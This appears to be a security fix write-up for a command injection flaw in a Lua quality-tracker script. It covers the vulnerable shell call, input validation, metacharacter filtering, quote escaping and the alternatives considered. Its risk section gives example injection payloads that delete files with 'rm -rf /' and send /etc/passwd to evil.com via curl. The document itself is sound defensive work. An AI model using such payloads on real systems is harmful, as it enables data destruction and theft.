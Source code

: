 # Command Injection Fix in Quality Tracker

## Problem Identified

In `scripts/quality_tracker.lua` around lines 49-69, the `scan_directory` function contained a command injection vulnerability where the `root` parameter was directly interpolated into a shell command without proper sanitization:

```lua
-- VULNERABLE CODE
local function scan_directory(root, pattern)
    local files = {}
    
    -- Use find command to get all .lua files
    local cmd = string.format("find '%s' -name '*.lua' -type f 2>/dev/null", root)
    local handle = io.popen(cmd)
    -- ... rest of function
end
```

## Security Risk

This vulnerability could allow an attacker to inject arbitrary shell commands if they could control the `root` parameter. For example:
- `root = "'; rm -rf /; echo '"` could delete files
- `root = "'; curl evil.com/steal?data=$(cat /etc/passwd); echo '"` could exfiltrate data

## Fix Implemented

The fix implements multiple layers of security:

### 1. Input Validation
```lua
-- Sanitize and escape the root path to prevent command injection
if not root or type(root) ~= "string" then
    print("[quality_tracker] Warning: Invalid root directory parameter")
    return files
end
```

### 2. Character Filtering
```lua
-- Validate that root doesn't contain dangerous characters
if root:match("[;&|`$(){}]") then
    print(string.format("[quality_tracker] Warning: Root directory contains unsafe characters: %s", root))
    return files
end
```

**Dangerous characters blocked:**
- `;` - Command separator
- `&` - Background execution / command chaining
- `|` - Pipe operator
- `` ` `` - Command substitution
- `$` - Variable expansion / command substitution
- `()` - Subshell execution
- `{}` - Brace expansion

### 3. Path Escaping
```lua
-- Escape single quotes in the path by replacing ' with '\''
local safe_root = root:gsub("'", "'\\''")

-- Use find command to get all .lua files with properly escaped path
local cmd = string.format("find '%s' -name '*.lua' -type f 2>/dev/null", safe_root)
```

**Escaping mechanism:**
- Replaces each single quote `'` with `'\''`
- This closes the current quoted string, adds an escaped quote, and starts a new quoted string
- Example: `path'with'quotes` becomes `path'\''with'\''quotes`

## Security Testing

The fix was tested with various malicious inputs:

| Input | Result |
|-------|--------|
| `normal/path` | ✅ SAFE: `normal/path` |
| `path with spaces` | ✅ SAFE: `path with spaces` |
| `path'with'quotes` | ✅ SAFE: `path'\''with'\''quotes` |
| `path;with;semicolon` | ❌ REJECTED: contains unsafe characters |
| `path$(dangerous)` | ❌ REJECTED: contains unsafe characters |

## Defense in Depth

The fix implements multiple security layers:

1. **Type Validation**: Ensures input is a string
2. **Character Filtering**: Blocks dangerous shell metacharacters
3. **Path Escaping**: Properly escapes remaining content
4. **Error Handling**: Gracefully handles invalid inputs
5. **Logging**: Records security violations for monitoring

## Impact

- **Security**: Eliminates command injection vulnerability
- **Reliability**: Handles edge cases gracefully
- **Monitoring**: Provides visibility into security events
- **Compatibility**: Maintains existing functionality for valid paths

## Alternative Approaches Considered

### 1. LuaFileSystem (lfs)
```lua
-- Could use lfs.dir() instead of shell commands
local lfs = require("lfs")
for file in lfs.dir(root) do
    -- Process files
end
```
**Pros:** No shell execution, inherently safe
**Cons:** Requires additional dependency, more complex recursive traversal

### 2. Whitelist Validation
```lua
-- Only allow alphanumeric, slash, dash, underscore, dot
if not root:match("^[%w%/%-%_%.]$") then
    return files
end
```
**Pros:** Very restrictive, highly secure
**Cons:** May block legitimate paths with spaces or other valid characters

### 3. Complete Path Sanitization
```lua
-- Remove all potentially dangerous characters
local safe_root = root:gsub("[^%w%/%-%_%.]", "")
```
**Pros:** Simple approach
**Cons:** May break legitimate paths, silent data corruption

## Chosen Approach Rationale

The implemented solution balances security and usability:
- **Blocks clearly dangerous patterns** (command injection attempts)
- **Preserves legitimate paths** (including spaces, which are common)
- **Provides clear error messages** for debugging
- **Uses proven escaping techniques** (standard shell escaping)

## Future Enhancements

1. **Migrate to LuaFileSystem**: For environments where lfs is available
2. **Path Canonicalization**: Resolve relative paths and symlinks
3. **Sandboxing**: Run file operations in restricted environment
4. **Audit Logging**: Log all file system operations for security monitoring

## Conclusion

The command injection vulnerability has been eliminated through a comprehensive defense-in-depth approach that validates, filters, and escapes user input before using it in shell commands. The fix maintains functionality while providing strong security guarantees and clear error reporting.